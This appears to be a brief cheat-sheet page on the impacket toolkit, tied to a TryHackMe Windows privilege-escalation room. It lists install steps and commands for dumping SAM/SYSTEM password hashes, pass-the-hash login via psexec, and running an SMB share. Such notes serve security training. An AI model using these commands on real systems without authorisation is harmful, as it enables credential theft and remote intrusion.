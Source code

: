 # impacket

[![windowsprivesc20](../../../../cybersecurity/_badges/thmp/windowsprivesc20.svg)](https://tryhackme.com/room/windowsprivesc20)

<div class="row row-cols-md-2"><div>

[impacket](https://github.com/fortra/impacket) (11.1k ⭐) is a collection of [python](/programming-languages/high-level/python/index.md) classes for working with network protocols.

```shell!
$ sudo git clone https://github.com/fortra/impacket /opt/impacket
$ cd /opt/impacket
$ pip install -r requirements.txt
$ pip install .
```


</div><div>

#### Dump hashes from backup

Dump hashes from a backup of SAM and SYSTEM hashes.

```shell!
$ python /opt/impacket/examples/secretsdump.py -sam XXX -system YYY LOCAL
```

<br>

#### Pass-The-Hash

Use a hash to login.

```shell!
$ python /opt/impacket/examples/psexec.py -hashes usernamehash:sessionhash username@IP
```

<br>

#### SMB server

Run a [SMB](../smb.md) server to which user will connect with the username XXX and the password YYY. Files will be stored in `/path/to/share`.

```shell!
$ python /opt/impacket/examples/smbserver.py -smb2support -username XXX -password YYY share_name /path/to/share
```
</div></div>